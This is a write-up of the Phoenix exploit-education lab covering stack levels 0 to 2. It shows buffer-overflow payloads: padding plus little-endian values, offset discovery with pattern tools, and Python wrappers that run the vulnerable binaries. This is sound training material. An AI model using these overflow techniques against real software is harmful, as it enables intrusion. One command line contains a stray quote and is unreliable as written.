 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include heap 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962


```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```



The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  


__python__
```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')
```
>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  


__python3__
```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value



# Stack 2

First running ./stack-two tells us to set the ExploitEducation environment variable.

$ export ExploitEducation="test"
./stack-two

> Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

Bummer it looks the program is reading from the environment variable and that is where we can overflow the buffer
to set the changeme value that we need to pass the challenge.

__python 2__
```bash
export ExploitEducation=$(python -c 'print "A" * 64 + "\x0a\x09\x0a\x0d"')
```

__python3__
```bash
export ExploitEducation=$(python3 -c 'print("A"*64+"\x0a\x09\x0a\x0d")')
```

As python scripts:

__python2__
```python
#!/usr/bin/python

import os

#0x0d0a090a
#os.environ["ExploitEducation"] = "$(python3 -c 'print(\"A\" * 64 + \"\\x0a\\x09\\x0a\\x0d\")')"

os.system("ExploitEducation=$(python -c 'print \"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\"') /opt/phoenix/amd64/stack-two")
```

__python3__
```python
#!/usr/bin/python3
import os

os.system("ExploitEducation=$(python3 -c 'print(\"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\")') /opt/phoenix/amd64/stack-two")
```







